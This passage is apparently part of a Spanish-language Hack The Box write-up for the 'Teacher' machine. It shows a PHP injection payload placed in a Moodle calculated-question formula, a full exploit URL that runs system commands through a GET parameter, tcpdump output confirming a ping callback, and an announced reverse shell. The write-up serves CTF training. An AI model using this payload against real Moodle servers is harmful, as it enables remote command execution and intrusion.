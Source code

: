 ![](/assets/images/Teacher/img7.png)

Le ponemos un nombre y una descripción a la pregunta... Aquí llega la parte importante, la formula que usaremos será la siguiente:


```
/*{a*/`$_GET[bly]`;//{x}}
```

Inyectaremos ese código php y nos permitirá ejecutar comandos  gracias a \`\`

![](/assets/images/Teacher/img8.png)

Salvamos los cambios y ahora a traves de la url podremos ejecutar comandos a nivel de sistema.

```url
http://teacher.htb/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&bly=ping%20-c%201%2010.10.16.6
```

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:06:44.904214 IP 10.10.10.153 > 10.10.16.6: ICMP echo request, id 1699, seq 1, length 64
12:06:44.904243 IP 10.10.16.6 > 10.10.10.153: ICMP echo reply, id 1699, seq 1, length 64
12:06:45.000213 IP 10.10.10.153 > 10.10.16.6: ICMP echo request, id 1701, seq 1, length 64
12:06:45.000242 IP 10.10.16.6 > 10.10.10.153: ICMP echo reply, id 1701, seq 1, length 64
```

Recibimos el ping... Ahora vamos a establecernos una revshell.
